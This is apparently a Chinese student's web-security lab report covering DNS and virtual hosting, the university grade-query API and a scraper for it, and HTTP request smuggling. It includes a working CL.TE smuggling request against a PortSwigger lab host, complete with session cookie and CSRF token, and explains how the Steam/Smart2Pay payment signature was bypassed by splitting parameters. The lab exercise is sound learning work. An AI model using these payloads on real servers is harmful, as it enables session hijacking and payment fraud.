# Task 1

此任务中使用 atrust 于校外连接至校网环境，可能存在问题。

## 校内 DNS

命令：`nslookup www.zju.edu.cn 10.10.0.21`

查询结果：


## 公网 DNS

命令：`nslookup www.zju.edu.cn 8.8.8.8`

查询结果：


## 连接测试

校内及公网 DNS 所得 IP 均无法直接访问成功，均提示 403。
校内 DNS 所给 IP 连接显示由 nginx 提供服务：

公网 DNS 所给 IP 连接显示由 tengine 提供服务：

地址均非服务器真实地址。

观察到用域名和用 IP 访问的 HTTP 请求包区别为 Host 字段分别为目标域名与查询所得 IP，搜索可知问题为服务器采用了虚拟主机技术，同一 IP 可能托管多个网站，服务器通过 HTTP 请求中的 Host 字段区分不同站点，直接访问 IP 时缺少有效 Host 信息，导致服务器返回错误或拒绝连接。问题位于应用层。

# Task 2

## 成绩查询页面分析

### 大致加载流程

1. 发送第一个请求，返回 html 页面：
   
   
2. 发送第二个请求，疑似为验证连接是否成功：
   
3. 发送第三个请求，获取成绩数据：
   

### 关键接口

观察第三个请求，接口为`https://zdbk.zju.edu.cn/jwglxt/cxdy/xscjcx_cxXscjIndex.html?doType=query`。

请求体中参数分别为：

- `xn`学年；
- `xq`学期；
- `zscjl`成绩段最小值；
- `zscjr`成绩段最大值；
- `queryModel.showCount`单页结果显示数量；
- `queryModel.currentPage`当前结果显示页码；
- `queryModel.sortName`结果排序字段：
  - `xkkh`选课课号；
  - `kcmc`课程名称；
  - `cj`成绩；
  - `xf`学分；
  - `jd`绩点；
- `queryModel.sortOrder`结果排序方式：
  - `asc`升序；
  - `desc`降序。

## Python 程序自主抓取成绩

`grade.py`（见 attachments）程序编写参考[Celechron 仓库](https://github.com/Celechron/Celechron)相关模块，利用 AI 辅助改写其统一身份认证登录模块([Celechron/lib/http/zjuServices/zjuam.dart](https://github.com/Celechron/Celechron/blob/main/lib/http/zjuServices/zjuam.dart))及成绩查询模块([Celechron/lib/http/zjuServices/zdbk.dart](https://github.com/Celechron/Celechron/blob/main/lib/http/zjuServices/zdbk.dart))。

实际使用中可修改参数如下：

```python
# 使用用户名密码直接登录
USERNAME = "USERNAME_EXAMPLE"  # 学号
PASSWORD = "PASSWORD_EXAMPLE"  # 密码
# 查询参数
QUERY_PARAMS = {
   "xn": "",  # 学年
   "xq": "",  # 学期 (1-秋冬学期, 2-春夏学期)
   "zscjl": "",  # 成绩段最小值
   "zscjr": "",  # 成绩段最大值
}
```

示例日志`grade_debug.log`（部分）：


示例结果`grades_with_credentials_summary.txt`（部分）：


# Task 3

## HTTP 请求走私漏洞原理

HTTP 请求走私漏洞的核心原理在于当前端服务器和后端服务器对同一个 HTTP 请求中 Content-Length 和 Transfer-Encoding 两个 headers 字段的解析方式不一致时，攻击者可以构造一个模糊的 HTTP 请求，导致两台服务器对该请求的边界（即一个请求在哪里结束，下一个请求在哪里开始）产生不同的理解。
这种差异会导致：
前端服务器认为请求 A 已经结束，并将其完整地转发给后端服务器。
后端服务器认为请求 A 只包含了一部分数据，并将请求 A 中剩余的数据（被前端视为下一个请求 B 的开头部分）当作一个独立的、新的请求 B 来处理。
结果：攻击者注入的恶意数据（原本是请求 A 的一部分）被后端服务器当作是另一个用户发起的合法请求 B 来处理，从而实现了“走私”一个额外请求的目的。

## Lab: HTTP request smuggling, basic CL.TE vulnerability

构造的数据包：

```http
POST / HTTP/1.1
Host: 0ae3003204ade0fb806ee98900af00fb.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 302
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0ae3003204ade0fb806ee98900af00fb.web-security-academy.net
Cookie: session=eaQnmI9qoz0FF8akqkQgZdJEBlqJP1Pj
Content-Length: 982
Content-Type: application/x-www-form-urlencoded

csrf=jgaIzb1Js5SjrxEuFiGO4hsZU1Yg0KI1&postId=5&name=attacker&email=a%40a&comment=
```

成功截图：


# Bonus

## 漏洞成因

Steam 与 Smart2Pay 间的请求通信中请求体部分包含类哈希签名字段以校验数据完整性，签名生成方式类似于`hash(ALL_FIELDS_NAMES_VALUES_CONTACTED)`。直接修改金额（如将`Amount=1`改为`Amount=100`)会被签名检测拦截。
攻击者通过将 Steam 账户邮箱改为包含特定关键字（如`amount100`）的格式，后续重构参数顺序和注入新字段(如`Amount=1000`改为`Amount1=000`，`CustomerEmail=testamount100abc%40com`改为`CustomerEmail=test&amount=100&ab=c%40ocm`)，使系统误解析篡改后的数据，同时签名不变，通过校验。

## 绕过校验原理

以上述情况为例，原参数`Amount=1000`改为`Amount1=000`，使该字段失效，将`CustomerEmail=testamount100abc%40com`拆解为`CustomerEmail=test&amount=100&ab=c%40ocm`，此时系统解析出新字段` amount=100`，而原始金额字段因被重命名失效。同时所有字段拼接后计算所得哈希不变，通过签名校验。
